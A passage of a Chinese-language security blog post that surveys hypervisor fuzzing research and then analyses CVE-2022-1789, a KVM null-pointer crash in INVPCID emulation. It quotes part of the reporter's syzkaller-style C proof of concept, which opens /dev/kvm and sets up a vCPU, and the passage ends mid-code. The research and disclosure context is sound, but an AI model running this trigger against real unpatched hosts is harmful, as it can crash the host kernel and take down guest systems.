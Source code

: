 最早对VMM进行fuzzing的工作VDF，只能对PIO和MMIO这两个接口进行测试，实验方面用了覆盖率、bug detection为指标。Hyper-Cube使用了黑盒fuzzing，已经可以对PIO、MMIO、DMA、Hypercall进行测试，虽然没有用覆盖率做反馈，但是较高的吞吐量也使实验结果在多个设备上优于VDF。后面NYX、V-Shuttle、MORPHUZZ、ViDeZZo、HYPERPILL等工作主要是在提升输入的质量，让fuzzing能产生有效的输入。VD-Guard引入了MMIO到DMA的执行路径作为反馈信息之一。

#### 3.2 CPU虚拟化 fuzz

对虚拟CPU进行Fuzzing的工作只看到了Hyperfuzzer（CCS '21），它的fuzzing输入是一个虚拟机的状态，包括寄存器和内存，虚拟机运行后，将会触发VCPU执行一些指令，直到第一次发生VM-Exit，Hyperfuzzer在此时停止虚拟机，通过Intel PT获得后续CPU中的指令执行作为覆盖率信息反馈给AFL，同时用符号执行求解分支条件，引导生成更"有趣"的输入。Hyperfuzzer部署在搭载Intel芯片的机器上，并对Hyper-V进行了实验。测试的对象是hypercalls, hardware task switch emulation, advanced programmable interrupt controller (APIC) emulation, and model-specific register (MSR) emulation，发现了11个未知的Bug。

 ![图片来源：参考链接\[3\]](/attachments/2024-12-18-fuzzing/fc838298-5516-4b25-9b2b-87bb582e9bc4.png)

### 四、CPU虚拟化漏洞：CVE-2022-1789

#### 4.1 漏洞详情

在搭载Intel CPU的宿主机上，令KVM模块禁用EPT和VPID。并在启动的客户机中设置CR0.PG=0，即禁用分页机制。客户机在内核态运行一条INVPCID指令，INVPCID 指令用于清除与特定进程上下文标识符（PCID）相关的 TLB 条目。因为它是特权指令，所以会发生VM-Exit，进入物理机的hypervisor来执行，对应版本的KVM hypervisor在模拟这个指令时存在一个bug，需要用到invlpg的回调函数，该函数在上述设置下为空。指令模拟代码没有检查空指针就进行了解引用，造成内核crash。

#### 4.2 漏洞复现

此CVE的reporter公布了使用的PoC：

```clike
···
static volatile long syz_kvm_setup_cpu(volatile long a0, volatile long a1,  volatile long a2, volatile long a3, volatile long a4, volatile long a5, volatile long a6, volatile long a7)
{
        ……;
        if (text_type == 8) {
            if (flags & KVM_SETUP_VIRT86) {
                sregs.cs = seg_cs16;
                sregs.ds = sregs.es = sregs.fs =  sregs.gs = sregs.ss = seg_ds16;
                sregs.cr0 |= CR0_PE;
                sregs.cr0 &= ~CR0_PG;
                setup_32bit_idt(&sregs, host_mem, guest_mem);
            } 
        } 
        ……;
}

uint64_t r[3] = {0xffffffffffffffff,  0xffffffffffffffff,  0xffffffffffffffff};

int main(void)
{
        syscall(__NR_mmap, 0x1ffff000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
        syscall(__NR_mmap, 0x20000000ul, 0x1000000ul, 7ul, 0x32ul, -1, 0ul);
        syscall(__NR_mmap, 0x21000000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
                                intptr_t res = 0;
        memcpy((void*)0x20000080, "/dev/kvm\000", 9);
        res = syscall(__NR_openat, 0xffffffffffffff9cul, 0x20000080ul, 0ul, 0ul);
        if (res != -1)
                r[0] = res;
        res = syscall(__NR_ioctl, r[0], 0xae01, 0ul);
        if (res != -1)
                r[1] = res;
        res = syscall(__NR_ioctl, r[1], 0xae41, 0ul); //KVM_CREATE_VCPU
        if (res != -1)
                r[2] = res;
        *(uint64_t*)0x200000c0 = 8;
        *(uint64_t*)0x200000c8 = 0x20000300;
```